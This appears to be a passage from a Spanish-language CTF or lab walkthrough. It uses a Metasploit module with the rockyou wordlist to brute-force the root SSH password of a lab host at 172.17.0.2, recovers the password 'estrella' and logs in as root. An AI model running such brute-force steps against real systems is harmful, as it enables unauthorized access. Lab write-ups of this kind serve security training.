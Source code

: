 
Mostramos las opciones
```
show options
```

![](img/Pasted%20image%2020241231175518.png#center)


Configuramos las opciones
```
set RHOST 172.17.0.2
set USERNAME root
set PASS_FILE /usr/share/wordlists/rockyou.txt
```

![](img/Pasted%20image%2020241231175652.png#center)


Ejecutamos el módulo
```
run
```

![](img/Pasted%20image%2020241231181259.png#center)

Me encuentra la contraseña del usuario `root:estrella`


Iniciamos sesión en el protocolo `SSH` con dichas credendiales
```
ssh root@172.17.0.2    # Después introducimos la contraseña estrella
```
